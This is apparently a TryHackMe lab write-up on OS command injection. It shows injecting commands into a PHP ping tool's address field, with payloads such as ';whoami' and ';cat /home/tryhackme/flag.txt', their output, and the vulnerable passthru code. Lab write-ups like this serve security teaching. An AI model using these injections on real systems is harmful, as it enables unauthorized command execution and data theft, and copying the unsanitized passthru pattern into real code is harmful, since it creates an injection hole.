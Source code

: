 # oscommandinjection

### https://tryhackme.com/room/oscommandinjection
### Hein Andre Grønnestad
### 2021-10-10

---

## Task 5

We have access to the following web interface:

![01](01-screenshot.png "")

This web tool can be used to ping an IP address. Let's try it:

![](02-screenshot.png "")

After waiting for the `ping`-command to finish, we get the following results back:

```
Here is your command: 127.0.0.1

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.030 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.028 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3061ms rtt min/avg/max/mdev = 0.015/0.025/0.030/0.006 ms
```

### Task 5 - What user is this application running as?

We need to try and execute the `whoami`-command through the web interface to see which user the web application is running as.

Let's start by guessing that the server side code looks something like this:

```php
echo system("ping $user_input");
```

So when we enter `127.0.0.1` it will look like this:

```php
echo system("ping 127.0.0.1");
```

We can only change the part that comes after `ping `.

The simplest thing would be to try to add an extra command to the input.

Let's try the follwing payload where we add another command by adding a `;` followed by a second command:

```
127.0.0.1;whoami
```

This is what we receive back. Notice the `{whoami_output}` at the end of the output:

```
Here is your command: 127.0.0.1;whoami

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.038 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.030 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3080ms rtt min/avg/max/mdev = 0.016/0.028/0.038/0.007 ms {whoami_output}
```

If we ommit the ip address we don't even have to wait for the `ping`-command to finish.

Payload:
```
;whoami
```

Output:
```
Here is your command: ;whoami

Output:

{whoami_output}
```

### Task 5 - What are the contents of the flag located in /home/tryhackme/flag.txt?

Payload:
```
;cat /home/tryhackme/flag.txt
```

Output:
```
Here is your command: ;cat /home/tryhackme/flag.txt

Output:

THM{**************************}
```

## Extra Credit

### Exfiltrate Web App Code

Payload:
```
;ls
```

Output:
```
Here is your command: ;ls

Output:

css img index.php js test.php
```

Payload:
```
;cat index.php
```

Output Screenshot:

![](03-screenshot.png "")

We can see the HTML-page renderen in the browser, but with the PHP-variables visible.

"View Page Source" gives us the following:

Output:
```php
// ... HTML template removed
<?php
if (isset($_GET["address"])) {
    $command = $_GET["address"];
    echo "<p><b>Here is your command: </b>$command</p>";

    echo "<p><b>Output: </b>$result</p>";

    $result = passthru("/bin/ping -c 4 ".$_GET["address"]);
}
?>
```

We can clearly see the vulnerable code:
```php
$result = passthru("/bin/ping -c 4 ".$_GET["address"]);
```


### Reverse Shell
We could probably get a reverse shell from the server as well.
